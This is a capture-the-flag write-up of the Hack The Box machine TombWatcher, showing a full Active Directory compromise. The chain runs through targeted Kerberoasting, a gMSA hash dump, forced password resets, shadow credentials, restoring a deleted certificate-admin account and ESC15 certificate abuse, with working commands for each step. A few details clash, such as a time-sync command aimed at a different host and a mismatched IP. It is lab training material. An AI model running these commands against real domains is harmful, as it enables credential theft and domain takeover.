This box is rated medium difficulty on HTB. It involves us pivoting between user accounts with GMSA, targeted Kerberoasting, force changing passwords, and grabbing shadow credentials. Once on the system, we discover a deleted cert admin account that can be recovered. Using their privileges allows us to find a misconfiguration in Active Directory Certificate Services and escalate privileges to Administrator via ESC15. 

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing other than the typical AD things.

```
$ sudo nmap -sCV 10.129.45.223 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-05 23:11 CST
Nmap scan report for 10.129.45.223
Host is up (0.055s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-06 09:11:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-06T09:13:02+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-03-06T09:13:02+00:00; +4h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-06T09:13:02+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-03-06T09:13:02+00:00; +4h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3h59m59s, deviation: 0s, median: 3h59m59s
| smb2-time: 
|   date: 2026-03-06T09:12:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.27 seconds
```

Looks like we're dealing with a Windows machine with Active Directory components installed on it. LDAP is leaking the domain and hostname which reveals the system to be a domain controller that goes by DC01.tombwatcher.htb, I go ahead and add that to my /etc/hosts file. There are quite a few ports open so I'll focus on HTTP, SMB, and Kerberos first as we'll get the most out of them.

Checking out the landing page for the web server just shows the typical Microsoft IIS starter page. I'll leave subdirectory and subdomain scans running in the background in case we find a login somewhere.



This is an assumed breach box, meaning we are granted credentials for a user beforehand. I use them to authenticate over SMB in order to discover any readable shares as well as grab a list of users on the domain by RID brute forcing.



```
#Capturing output of RID brute-force to a file
nxc smb tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --rid-brute > users.txt

#Extracting the usernames from it
cat users.txt| awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```

There are no other non-standard shares on the domain and we only get a small list of users back from it. In terms of getting an initial shell or pivoting to other users, nothing sticks out to me, so I'll fire up Bloodhound to map the Active Directory environment in hopes that our user might have something for us to use.

## Targeted Kerberoasting
Since we don't have initial access yet, I collect data using [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) and then let Bloodhound ingest it for a moment.

```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.129.45.223 -c all
```

It seems like our account doesn't have much access as we're only apart of the users and domain users group. The one interesting thing under outbound object control is the capability to `writeSPN` over Alfred's account.



As there's not much else to do, our only choice is to perform a Targeted Kerberoasting attack on that account.

Targeted Kerberoasting is a variation of Kerberoasting where we deliberately assign a Service Principal Name (SPN) to an account we can modify, rather than relying on existing service accounts. If we control an account with `writeSPN` privileges over another user object in Active Directory, we can register a malicious SPN on that account and then request a Kerberos service ticket (TGS) from Kerberos for that SPN. The returned ticket is encrypted using the target account's password hash, which we can extract and crack offline using Hashcat or JohnTheRipper to recover the plaintext password. 

First we need to add an SPN to Alfred's account, I'll do this by using [BloodyAD](https://github.com/CravateRouge/bloodyAD) which makes this step a lot easier.

```
#Cloning BloodyAD repo into a Python virtual env and installing reqs
git clone https://github.com/CravateRouge/bloodyAD
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt

#Writing new SPN to Alfred's account
python3 bloodyAD.py -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' --host DC01.tombwatcher.htb set object alfred servicePrincipalName -v 'http/pwned'
```

Now we can just use Netexec to Kerberoast and dump the NTLM hash for Alfred. I also needed to fix the clock skew error in order to carry out this attack. VMWare likes to override my commands when trying to sync times, so I usually just stop both services whenever doing stuff related to Kerberos.

```
#Stopping my machine's timsyncd processes
sudo systemctl stop systemd-timesyncd
sudo systemctl disable systemd-timesyncd
sudo systemctl stop chronyd 2>/dev/null
sudo systemctl disable chronyd 2>/dev/null

#Set Clock skew to match the DC's
sudo rdate -n flight.htb

#Netexec Kerberoasting Alfred
nxc ldap dc01.tombwatcher.htb -u henry -p 'H3nry_987TGV!' -k --kerberoasting hashes
```



Cracking that hash is very quick and we can now authenticate as Alfred. Heading back to Bloodhound shows that he has access to `addSelf` to the Infrastructure group. Our goal is to try and grab a shell, so I check who is apart of the remote management group that can WinRM onto the domain and find that John is the only user.

## Attack Chain to John
Using that pathfinding function shows a relatively long route to get access to that account. First, we can add ourselves to the Infrastructure group which can read the group managed service account password over `Ansible_Dev$`. Once we have access to that machine account, we can then force change Sam's password, who has `writeOwner` permissions over John's account.



Getting started on that, I use BloodyAD again to add Alfred as a member to the Infrastructure group.

```
bloodyAD -d tombwatcher.htb -u alfred -p [REDACTED] --host DC01.tombwatcher.htb add groupMember Infrastructure alfred
```

Next, I read the `Ansible_Dev$` account's hash with a simple Netexec command over LDAP. If you didn't know, service account passwords are automatically generated and rotated every 30-days and cracking them is next to impossible. This command will give us the NTLM hash in which we'll use to authenticate over SMB.

```
netexec ldap dc01.tombwatcher.htb -u alfred -p basketball --gmsa
```



Now back to BloodyAD to change Sam's password. Note that there is no hash option and we must provide it with a password, however using a leading colon will recognize our string as a hash.

```
bloodyAD -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p ':93f81a98d22217b6206d950528a4802e' --host dc01.tombwatcher.htb set password 'sam' 'Password123!'
```

Final step in this attack chain is to exploit our permissions with `writeOwner` over John's accounts. We can set our account to have full ownership over John which gives us genericAll access and from there it's as easy as finding a way to authenticate.

```
bloodyAD -d tombwatcher.htb -u sam -p 'Password123!' --host dc01.tombwatcher.htb set owner john sam

bloodyAD -d tombwatcher.htb -u sam -p 'Password123!' --host dc01.tombwatcher.htb add genericAll john sam
```

It's good practice to not actually change account passwords if there's another way, because in real engagements, it would not be sneaky and if John were to try and login using his old password, business operations would be halted. For that reason, I'll be getting a shadow credential via [Certipy-AD](https://github.com/ly4k/Certipy).

```
certipy-ad shadow auto -username sam -password 'Password123!' -account john -dc-ip 10.129.45.223
```

_Note: If this fails, it may be an error in package dependencies or a cleanup script being executed that reverts changes that were just made by us._



## Privilege Escalation
With that handled, we can now grab a shell on the box with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) using the captured NTLM hash and secure the user flag under his Desktop folder as well.



Now that we finally have a shell on the box, let's start internal enumeration in order to escalate privileges to Administrator. The filesystem doesn't seem to hold anything that we can use and there are no other interesting users. Bloodhound shows that our current account has `genericAll` over the Active Directory Certificate Services group, but beyond that there isn't much we can do.

### Deleted Object
I'm unable to see any vulnerabilities in Bloodhound, so I resort to Certipy-AD in hopes to find anything helpful for our goal. This returned something strange, it failed to lookup an object with a specific SID which I've never seen before.



Some research as to why this happened reveals that Active Directory just cannot resolve the identity associated with that SID and fails. This typically means that that account/object has been deleted. While parsing the Certipy output for intriguing enrollment rights, I find that same SID under the WebServer template.



My next goal is to find out what this object is and if we're able to restore it in order to help us escalate privileges. We can do this with a simple PowerShell command as we have a shell now.

```
*Evil-WinRM* PS C:\> Get-ADObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : tombwatcher.htb/Deleted Objects/cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
CN                              : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
codePage                        : 0
countryCode                     : 0
Created                         : 11/16/2024 12:07:04 PM
createTimeStamp                 : 11/16/2024 12:07:04 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
dSCorePropagationData           : {11/16/2024 12:07:10 PM, 11/16/2024 12:07:08 PM, 12/31/1600 7:00:00 PM}
givenName                       : cert_admin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=ADCS,DC=tombwatcher,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 11/16/2024 12:07:27 PM
modifyTimeStamp                 : 11/16/2024 12:07:27 PM
msDS-LastKnownRDN               : cert_admin
Name                            : cert_admin
                                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid                       : S-1-5-21-1392491010-1358638721-2126982587-1111
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133762504248946345
sAMAccountName                  : cert_admin
sDRightsEffective               : 7
sn                              : cert_admin
userAccountControl              : 66048
uSNChanged                      : 13197
uSNCreated                      : 13186
whenChanged                     : 11/16/2024 12:07:27 PM
whenCreated                     : 11/16/2024 12:07:04 PM
```

### ESC15 PrivEsc
This shows that the deleted object was in fact a certificate admin on the domain. I'm willing to bet that since John has genericAll over the ADCS group, we're able to bring this account back from the recycle bin. We can test it out by using the `Restore-ADObject` command in PS while providing the object's GUID.



Perfect, now that it's been restored, we can overwrite it's password and see if we're able to find any vulnerable ADCS templates now.

```
Set-ADAccountPassword cert_admin -NewPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
```

Rerunning Certipy-AD with the `-vulnerable` flag exclaims that this system is vulnerable to ESC15.

```
$ certipy-ad find -target dc01.tombwatcher.htb -u cert_admin -p 'Password123!' -vulnerable -stdout

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query dc01.tombwatcher.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: All nameservers failed to answer the query DC01.tombwatcher.htb. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.
```

ESC15 is a vulnerability in Active Directory Certificate Services where a certificate template allows users to supply arbitrary certificate extensions, including Extended Key Usage (EKU) values. If low‑privileged users can enroll in the template, they can request certificates with authentication policies like Client Authentication.

Attackers can then use the certificate to authenticate to Active Directory via PKINIT, potentially impersonating privileged accounts and escalating privileges to fully compromise the domain.

Basically, we're requesting certificates on behalf of the administrator which can then be used for client authentication, allowing us to grab the NTLM hash and WinRM onto the domain with full privileges; Once again, we'll be using Certipy-AD.

```
certipy req -u cert_admin -p 'Password123!' -dc-ip 10.129.45.223 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Certificate Request Agent'
```

There's a lot happening in that command, so I'll break down what each flag is doing.
- `-req` – Request a certificate
- `-u cert_admin` – Username for authentication
- `-p 'Password123!'` – Password for the user
- `-dc-ip 10.10.11.72` – Domain controller IP
- `-target dc01.tombwatcher.htb` – Target CA/DC hostname
- `-ca tombwatcher-CA-1` – Certificate Authority name
- `-template WebServer` – Certificate template to use
- `-upn administrator@tombwatcher.htb` – Impersonated user UPN
- `-application-policies 'Certificate Request Agent'` – Injects requested application policy (ESC15 abuse)



Running that grants us an `administrator.pfx` file that we can now use in another request with the User template. This step will give us a new `.pfx` file that is used to authenticate.

```
certipy-ad req -u cert_admin -p 'Password123!' -dc-ip 10.129.45.223 -target dc01.tombwatcher.htb -ca tombwatcher-CA-1 -template User -pfx administrator.pfx -on-behalf-of 'tombwatcher\Administrator'
```



The last step for ESC15 is to use the auth module in Certipy-AD with the new certificate in order to grant us the Administrator's hash.

```
certipy-ad auth -pfx administrator_964521c7-a84d-4a39-ab2b-710fef23b4b5.pfx -dc-ip 10.129.45.223
```



Finally, we can Evil-WinRM onto the domain and grab the root flag under their Desktop directory to complete this challenge.



That's all y'all, this box was a bit difficult towards the end for me because I'm not too familiar with ADCS in general. I enjoyed the user chain that we exploited and learned plenty on the way. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
